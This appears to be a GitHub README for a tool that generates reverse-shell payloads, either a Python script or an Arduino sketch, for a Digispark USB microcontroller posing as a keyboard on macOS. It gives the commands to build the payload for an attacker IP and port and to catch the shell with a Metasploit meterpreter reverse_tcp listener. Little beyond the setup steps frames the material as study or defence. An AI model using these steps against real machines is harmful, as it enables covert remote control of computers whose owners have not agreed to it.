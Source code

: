 

## What is digispark?
Digispark is a Attiny85 based microcontroller that can be used as a trusted HID-MIDI device. This project addresses its vulnerability, which injects malicious code into the machine. 

## Digispark reverse shell

The script creates either a reverse shell python script or arduino sketch for digispark. The script is compatible with metasploit.</br>
This Digispark sketch is intended to run on OS X operating System.


## Features

- Creates a reverse shell python script
- Creates a Arduino sketch for digispark

## Arduino Configuration

To flash the microcontroller, you need to add this link to your boards maneger</br>
Arduino > File > Preferences > Additional Boards Manager URLs: 
```
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
```

Once the link is added, head over to Tools > Bord > Boards Manager, search for "Digistump AVR Boards" and make sure it is installed.


## Installation

Clone this repository
``` 
git clone https://github.com/https-sam/digispark_reverse_shell.git
```

```
cd scripts
```

`-p and -i tags` are required.
```
python3 payloadGenerator.py -i IP ADDRESS -p PORT
```

`-py True` is optional, which only creates a python reverse shell script.
```
python3 payloadGenerator.py -i IP Address -p PORT -py True
```


## Set up

Metsploit can be used as a listener
``` 
msfconsole
use multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport PORT
run
````



## License

MIT


- [Digistump](https://github.com/digistump/DigisparkArduinoIntegration/blob/master/libraries/DigisparkKeyboard/DigiKeyboard.h) - Library for digispark
- [Micronucleus](https://github.com/micronucleus/micronucleus) - processor
- [Metasploit](https://github.com/rapid7/metasploit-framework) 


